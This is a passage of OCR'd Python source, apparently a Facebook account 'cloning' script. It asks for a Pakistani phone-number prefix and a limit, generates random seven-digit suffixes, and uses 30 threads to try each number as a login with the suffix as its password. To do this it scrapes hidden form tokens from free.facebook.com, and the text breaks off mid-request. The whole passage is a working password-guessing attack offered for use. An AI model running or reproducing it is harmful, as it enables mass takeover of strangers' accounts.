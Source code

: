     user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]")
    print(f"")
    print(f" 0306 ,0300 ,0315 ,0333")
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    print(f"\x1b[97m[\033[37;41mBEST CODE 0300 / 0302 / 0306 / 0349 /0315   \033[0;m]")
    print("")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {BLUE}"+tl+" ~> [ FASTEST⚡]")
        print(f" {WHITE}COUNTRY YOU CHOOSE    : {GREEN}PAKISTAN 🇵🇰")
        print(f" {WHITE}NUMBER YOU PUT        : {YELLOW}"+code)
        print(f" {WHITE}TODAY DATE & TIME     :{RED} {ha}/{bu}/{ta} {ORANGE}~> {GREEN} "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print(f" {WHITE}TO STOP PROCESS PRESS Ctrl + Z ")
        print(f'{RED}==========================================================')
        for love in user:
            uid = code+love
            pwx = [love]
            manshera.submit(free1,uid,pwx,tl)
def free1(uid,pwx,tl):
    global loop
    global ok
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,